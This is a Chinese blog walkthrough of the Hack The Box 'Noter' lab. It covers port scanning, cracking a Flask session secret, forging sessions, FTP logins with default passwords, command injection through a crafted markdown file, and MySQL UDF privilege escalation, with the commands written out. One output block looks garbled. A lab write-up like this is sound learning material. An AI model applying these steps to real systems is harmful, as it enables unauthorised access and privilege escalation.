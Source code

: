 ```yaml
---
title: htb noter
copyright: true
date: 2022-05-11 15:51:55
tags: 靶机渗透
---
```

htb不允许公开active靶机的wp，这里只是自己记录下渗透过程。
<!--more-->
难度：medium  

**1.端口扫描**  
nmap -sVC -A --min-rate 5000 10.129.171.250 > port.txt  
21 22 5000端口开放  

**2.web**  
5000端口是个flask应用，熟悉的味道，熟悉的配方，flask基本上就考虑jinja2 ssti和secret_key伪造了  
![1.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/1.png)  
注册一个普通用户，在添加笔记功能发现了一个xss  
![2.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/2.png)  
![3.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/3.png)  
在这里尝试了很久才基本确定这个xss没有利用价值  
尝试leak secret_key失败，尝试爆破session  
```
flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.YnpVIQ.4XYlyJbVnl7qlkIJENKNrgDSkVI" < /usr/local/lib/python3.9/dist-packages/flask_unsign_wordlist-2022.19-py3.9.egg/flask_unsign_wordlist/wordlists/all.txt
```
```
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2688): -----BEGIN PRIVATE KEY-----DEF
[+] Found secret key after 16640 attempts32.com/v1/pe
'secret123'
```
使用伪造的admin session登录失败，应该没有admin这个用户，关注到登录时用户名存在与否的显示不同。  
![4.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/4.png)  
![5.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/5.png)  
fuzz有效用户名  
```
wfuzz -t 5 --ss "Invalid login" -d 'username=FUZZ&password=1' -w /root/桌面/tools/字典/SecLists-master/Usernames/cirt-default-usernames.txt http://10.129.173.40:5000/login
```
![6.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/6.png)  
其中test是我测试时创建的用户，伪造TEST 和blue的session试试，发现blue是vip用户  
```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret "secret123"

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YnqLdQ.XgF7a8l7SFd4HdntVKE-0YHGdeE
```
![7.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/1.png)  
在blue的笔记中发现了ftp服务的一个用户名密码blue  blue@Noter!和管理员用户名ftp_admin  
![8.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/8.png)  
使用blue登入ftp服务器，发现了一个密码策略pdf，知道了默认密码为username@site_name!  
![9.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/9.png)  
使用ftp_admin  ftp_admin@Noter!   登入ftp，获取两个版本的flask源码，通过beyondcompare辅助审计代码，发现mysql root用户名密码（后边要用）和一个命令注入点：  
这里的r.text.strip()可控，使用;可以在shell里执行多条命令  
![10.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/10.png)  
kali上构造一个md文件，本地监听+远程导出一下，getshell  
![11.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/11.png)  
![12.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/12.png)  
![13.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/13.png)  
cat /home/svc/user.txt  

**3.提权**
上传pspy64看下进程，没什么可疑的，跑下linpeas，尝试了一番也没啥结果，这时想起了mysql用户名密码，udf一下。  
这里刚开始犯蠢了，直奔插件目录/usr/lib/x86_64-linux-gnu/mariadb19/plugin/ 想上传udf可执行程序，发现没有权限，想了一段时间，后来发现直接用mysql root用户往该目录里二进制dump即可。  
https://github.com/lockcy/penetration-kb/blob/master/htb-noter/linux32udf.py
```
python linux32udf.py --username root --password Nildogg36
./sh -p
```
获取root权限  
cat /root/root.txt  

